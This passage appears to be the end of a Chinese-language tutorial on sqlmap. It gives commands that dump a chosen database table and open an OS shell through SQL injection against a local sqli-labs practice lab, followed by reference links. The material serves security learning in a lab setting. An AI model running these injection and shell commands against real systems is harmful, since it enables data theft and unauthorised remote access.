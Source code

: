 `sqlmap -u "http:/localhost/sqli-labs-master/sqli-labs-master/Less-1/?id=1" -D DATABASENAME -T TABLENAME -C COLUMNNAME     --dump  --batch`

### 获取 Shell

`sqlmap -u "http:/localhost/sqli-labs-master/sqli-labs-master/Less-1/?id=1"  --os-shell`

## Reference

[https://www.freebuf.com/sectool/321598.html](https://www.freebuf.com/sectool/321598.html)
[https://www.freebuf.com/sectool/164608.html](https://www.freebuf.com/sectool/164608.html)
[https://www.cnblogs.com/cscshi/p/15705030.html](https://www.cnblogs.com/cscshi/p/15705030.html)
[https://www.anquanke.com/post/id/160636](https://www.anquanke.com/post/id/160636)
[https://zhuanlan.zhihu.com/p/377428620](https://zhuanlan.zhihu.com/p/377428620)
[https://zhuanlan.zhihu.com/p/145483801](https://zhuanlan.zhihu.com/p/145483801)
